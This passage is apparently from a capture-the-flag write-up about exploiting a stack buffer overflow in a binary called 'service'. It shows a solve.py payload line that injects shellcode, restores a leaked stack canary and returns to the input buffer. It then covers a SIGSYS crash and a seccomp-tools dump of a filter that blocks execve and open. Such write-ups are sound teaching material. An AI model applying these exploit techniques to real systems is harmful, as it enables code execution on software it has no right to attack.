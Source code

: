We can simply put our shellcode in the input buffer, so if we redirect execution flow back to the input buffer, then the shellcode will run.

```py [solve.py]
payload = shellcode + b'a'*(0x88-len(shellcode)) + leaked_canary + b'b'*(0x10-8)+leaked_input_buffer
```

The shellcode should execute. However...

```ansi [Pdbg output]
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Process './service' stopped with exit code -31 (SIGSYS) (pid 64943)
```

There is an error: `SIGSYS`. I hadn't encountered this before, so I had to look it up. [This is what I found](<https://en.wikipedia.org/wiki/Signal_(IPC)>).
::ProseImg{src="sigsys" alt="sigsys_wiki"}
::

### Solving Seccomp

Apparently, `SIGSYS` is sent when either there are bad arguments or a disallowed system call from the Linux Seccomp is made.

::ProseAlert{mode="warning"}
Linux Seccomp is a security feature that restricts the system calls a process can make. If a process tries to make a system call that is not allowed by its Seccomp profile, the kernel will send it a `SIGSYS` signal, which typically results in the process being terminated.
::

To inspect the Seccomp profile, we can use [seccomp-tools](https://github.com/david942j/seccomp-tools).

```ansi [seccomp-tools output]
└─$ seccomp-tools dump ./service
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

From this, we can see that when `execve` is called, the program goes to line `0007`, which kills the program. Similar things occur when `open` is called. Since our shellcode includes `open`, we just need to avoid that.
